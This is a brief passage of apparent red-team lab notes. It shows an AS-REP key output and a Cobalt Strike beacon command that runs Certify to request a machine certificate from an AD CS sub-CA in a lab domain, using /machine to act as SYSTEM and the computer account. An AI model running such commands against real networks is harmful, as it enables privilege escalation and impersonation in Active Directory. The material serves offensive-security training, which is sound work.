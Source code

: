 ```
  ASREP (key)              :  C1B715AF5F9B5468EB5FA8ADDA0E02EE2D7548F439DEA5A5D9B4F7DFA6482BDF
```

**If you're requesting a machine certificate with Certify, the&#x20;**<mark style="color:yellow;">**`/machine`**</mark>**&#x20;parameter is required to auto-elevate to `SYSTEM` and assume the identity of the computer account:**

{% code overflow="wrap" %}
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```
{% endcode %}
